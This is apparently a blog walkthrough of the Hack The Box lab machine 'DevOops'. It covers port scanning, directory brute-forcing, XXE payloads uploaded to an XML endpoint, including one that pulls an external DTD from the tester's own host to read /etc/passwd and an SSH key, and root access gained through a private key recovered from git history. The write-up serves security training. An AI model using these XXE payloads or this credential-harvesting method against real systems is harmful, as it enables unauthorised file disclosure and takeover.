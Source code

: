 ```yaml
---
layout: post
title: "HTB-Dev0ops"
categories: HTB-Walkthrough
---
```


![dev0ops1](/assets/img/dev0ops/dev0ops1.png)

DevOops is another 'more challenging' than OSCP boxes from TJNull's list.


nmap first.

<h3>Nmap</h3>

```
nmap -sV -Pn --min-rate 10000 -p- 10.10.10.91 |tee -a devoops.txt
```

```

Nmap scan report for 10.10.10.91
Host is up (0.11s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Gunicorn 19.7.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  

```

<hr width="250" size="6">


![port5000](/assets/img/dev0ops/devoops-5000.png)


<h3>Gobuster</h3>

```
gobuster dir -u http://10.10.10.91:5000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.py,.txt,.asp,.aspx,.sh
```

<hr width="250" size="6">


`/feed` seems to show a png with info about aws.

![feed](/assets/img/dev0ops/devoops-feed.png)

<hr width="250" size="6">

`/upload` may be a possible vector of attack.

![upload](/assets/img/dev0ops/devoops-upload.png)


I make a test.xml file to upload, to see if it will work.

```xml

<note>
<Author>Shin0bi</Author>
<Subject>testes</Subject>
<Content>testes...testes...1...2...3???</Content>
</note>

```


The result is reflected on the webpage.
![xml-upload](/assets/img/dev0ops/devoops-xml-upload.png)


<hr width="250" size="6">


make evil.xml:

```

<!--?xml version="1.0" ?-->
<!DOCTYPE convert [ <!ENTITY % remote SYSTEM "http://10.10.14.24/1.dtd">%remote;%int;%trick;]>
<note>
<Author>&b;</Author>
<Subject>sh1n</Subject>  
<Content>Reminder</Content>
</note>

```

This will call 1.dtd from Kali through the python webserver
```
python3 -m http.server 80
```

contents of 1.dtd:


```
<p class="p1"><!ENTITY b SYSTEM "file:///etc/passwd" ></p>
```

`500 server error....didnt work....`


Create mal.xml, this one doesn't require 1.dtd

```xml

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
        <Author>lhm</Author>
        <Subject>HTB</Subject>
        <Content>&xxe;</Content>
</creds>

```

The result was not entirely what was expected:

![malxml](/assets/img/dev0ops/devoops-malxml-out.png)



<hr width="250" size="6">

We've ended up with a private id_rsa key, likely for user `roosa` mentioned in the filepath.

Copy its contents as `rsa_key`

```
chmod 600 rsa_key
```

Then try to ssh into the target as roosa.

```
ssh -i rsa_key roosa@10.10.10.91
```

It works! we now have roosa's shell...and the user flag.

![ssh-roosa](/assets/img/dev0ops/devoops-ssh-roosa.png)

```
roosa@gitter:~$ cat user.txt
c5xxxxxxxxxxxxxxxxxxxxxxxxxxxx7b
roosa@gitter:~$ 
```


<h3>Privilege Escalation</h3>



The `.bash_history` is readable


```

roosa@gitter:~$ cat .bash_history
ssh-keygen --help
ssh-keygen 
ls -altr .ssh/
cat .ssh/id_rsa.pub 
nano /etc/host
nano /etc/hostname 
sudo nano /etc/hostname 
exit
nano .ssh/id_rsa.pub 
exit
ssh git@localhost
exit
ssh git@localhost
clear
apt-get upgrade
exit
ls -altr
mkdir work
cd work
mkdir blogfeed
git init
git add .
git commit -m 'initial commit'
git config --global user.email "roosa@solita.fi"
git config --global user.name "Roosa Hakkerson"
git commit -m 'initial commit'
nano README-MD
nano README-md
nano README.md
git add README.md 
git commit -m 'initial commit'
git remote add origin git@localhost:/srv/git/blogfeed.git
git push origin master
exit
ps -Af
kill 27499
exit
sudo su -
exit
groups
exit
git push origin master
cd work/blogfeed/
git push origin master
cd ..
cd blogfeed/
cd ..
git add README.md 
git commit -m 'Initial commit'
git push
git log 
ls 
nano integration/auth_credentials.key/
ls -altr
chmod go-rwx authcredentials.key 
ls -atlr
cd ..
ls -altr
chmod -R o-rwx .
ls -altr
ls resources/
ls resources/integration/
ls -altr resources/
ls -altr resources/integration/
rm -Rf resources/integration/auth_credentials.key
mv resources/authcredentials.key resources/integration/
git add resources/integration/authcredentials.key 
git commit -m 'add key for feed integration from tnerprise backend'
ls -altr resources/integration/
git push
ssh-keygen
ös -altr
ls .altr
ls -altr
cat kak
cp kak resources/integration/authcredentials.key 
git add resources/integration/authcredentials.key 
git commit -m 'reverted accidental commit with proper key'
git push
ls -altr
rm kak
rm kak.pub 
git log

<--snip-->

```

Besides running the gunicorn.sh file (which runs the webservice), the user seems to work
a lot with `git`.

There's a `work` folder in the user's home directory, and another inside called `blogfeed`.

It also seems that the user generated new authentication keys.


`cd work/blogfeed`


```
git log -p
```

The log is long, and reveals another private ssh key.

![gitkey](/assets/img/dev0ops/devoops-gitlog-revertedkey.png)



My experience of git is very limited, but it looks like the key with each line preceeded with a minus (-)
is being replaced with that whose lines start with pluses (+)

It also helps that my terminal has the outgoing as coloured red and the incomming as green.



I copypaste the green key to Kali, and remove the `+` in each line...

I follow the same proceedure as before...saving the file this time as `rkey`

```
chmod 600 rkey
```

use it to login via ssh as root:


```
ssh -i rkey root@10.10.10.91
```

![rootssh](/assets/img/dev0ops/devoops-rootssh.png)


Getting the root flag is a simple formality from here.


<hr width="250" size="6">

:)




